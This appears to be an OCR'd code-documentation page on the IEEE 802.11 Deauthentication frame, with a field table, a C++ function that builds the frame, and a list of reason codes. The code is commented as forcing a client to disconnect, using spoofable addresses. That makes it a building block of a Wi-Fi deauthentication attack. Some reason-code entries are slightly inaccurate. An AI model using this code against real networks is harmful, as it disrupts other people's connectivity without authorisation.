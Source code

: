 
---

### Deauthentication Frame
**Reference:** IEEE 802.11-2016, Section 9.3.3.13

#### Frame Structure

| Field Name      | Size     |
|:----------------|:---------|
| **MAC Header** | 24 bytes |
| **Reason Code** | 2 bytes  |

```cpp
// Builds a Deauthentication frame to force a client to disconnect
uint16_t build_deauth_packet(uint8_t* buffer, const uint8_t* dst, const uint8_t* src, const uint8_t* bssid, uint16_t reason) {
  memset(buffer, 0, 512);
  uint16_t pos = 0;
  ieee80211_mac_header_t* header = (ieee80211_mac_header_t*)buffer;
  header->frame_ctrl.protocol_version = 0;
  header->frame_ctrl.type = 0; // Management
  header->frame_ctrl.subtype = 12; // Deauthentication
  header->frame_ctrl.to_ds = 0;
  header->frame_ctrl.from_ds = 0;
  header->frame_ctrl.more_frag = 0;
  header->frame_ctrl.retry = 0;
  header->frame_ctrl.power_mgmt = 0;
  header->frame_ctrl.more_data = 0;
  header->frame_ctrl.protected_frame = 0;
  header->frame_ctrl.order = 0;
  header->duration_id = 0;
  memcpy(header->addr1, dst, 6);
  memcpy(header->addr2, src, 6);
  memcpy(header->addr3, bssid, 6);
  header->seq_ctrl = sequence_number++ << 4;
  pos += sizeof(ieee80211_mac_header_t);
  // Reason code (2 bytes, little endian)
  buffer[pos++] = reason & 0xFF;
  buffer[pos++] = (reason >> 8) & 0xFF;
  // (Optional) add supported rates for some APs/clients
  // buffer[pos++] = 0x01; buffer[pos++] = 0x08;
  // buffer[pos++] = 0x82; buffer[pos++] = 0x84; buffer[pos++] = 0x8B; buffer[pos++] = 0x96;
  // buffer[pos++] = 0x0C; buffer[pos++] = 0x12; buffer[pos++] = 0x18; buffer[pos++] = 0x24;
  return pos;
}
```
Common Reason Codes:
- `1`: Unspecified reason
- `2`: Previous authentication invalid
- `3`: Station leaving BSS/IBSS
- `4`: Inactivity timeout
- `6`: Class 2 frame from non-authenticated station
- `7`: Class 3 frame from non-associated station
- `8`: Station leaving BSS/IBSS

---